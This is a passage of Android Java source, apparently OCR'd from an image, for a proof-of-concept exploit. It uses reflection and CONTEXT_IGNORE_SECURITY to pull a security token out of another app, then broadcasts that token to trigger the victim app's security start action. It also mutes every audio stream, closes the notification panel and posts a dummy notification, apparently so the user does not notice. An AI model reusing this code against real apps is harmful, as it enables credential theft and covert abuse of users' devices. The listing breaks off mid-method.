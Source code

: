 ```java
  
        token = getToken();  
        if (token == null) { stopSelf(); return; }  
        Log.i("PoC", "token=" + token);  
  
        hideNotificationPanel();  
        postDummyNotification();  
  
        register();  
  
        Intent s = new Intent(ACT_START)  
                .setPackage(V_PKG)  
                .putExtra(EXTRA_TOKEN, token);  
        sendBroadcast(s);  
        Log.i("PoC", "START_SECURITY sent – waiting SECURITY_STARTED ...");  
    }  
  
    private void muteDevice() {  
        try {  
            AudioManager am = (AudioManager) getSystemService(Context.AUDIO_SERVICE);  
            if (am != null) {  
                int[] streams = {  
                        AudioManager.STREAM_MUSIC,  
                        AudioManager.STREAM_NOTIFICATION,  
                        AudioManager.STREAM_RING,  
                        AudioManager.STREAM_ALARM,  
                        AudioManager.STREAM_SYSTEM  
                };  
                for (int s : streams) am.setStreamVolume(s, 0, 0);  
                Log.i("PoC", "device audio muted");  
            }  
        } catch (Exception e) {  
            Log.w("PoC", "mute failed: " + e.getMessage());  
        }  
    }  
    // reflection  
    private String getToken() {  
        try {  
            Context vc = createPackageContext(V_PKG, CONTEXT_INCLUDE_CODE | CONTEXT_IGNORE_SECURITY);  
            Class<?> su = vc.getClassLoader().loadClass(V_PKG + ".SecurityUtils");  
            return (String) su.getMethod("getSecurityToken")  
                    .invoke(su.getDeclaredConstructor().newInstance());  
        } catch (Exception e) {  
            Log.e("PoC", "token fail", e);  
            return null;  
        }  
    }  
    // try close notification panel  
    private void hideNotificationPanel() {  
        try {  
            Intent closeDialogs = new Intent("android.intent.action.CLOSE_SYSTEM_DIALOGS");  
            sendBroadcast(closeDialogs);  
            Log.i("PoC", "closed notification panel");  
        } catch (Exception e) {  
            Log.w("PoC", "cannot close notification panel: " + e.getMessage());  
        }  
    }  
    // send dummy notification  
    private void postDummyNotification() {  
        try {  
            if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {  
                android.app.NotificationChannel channel =  
```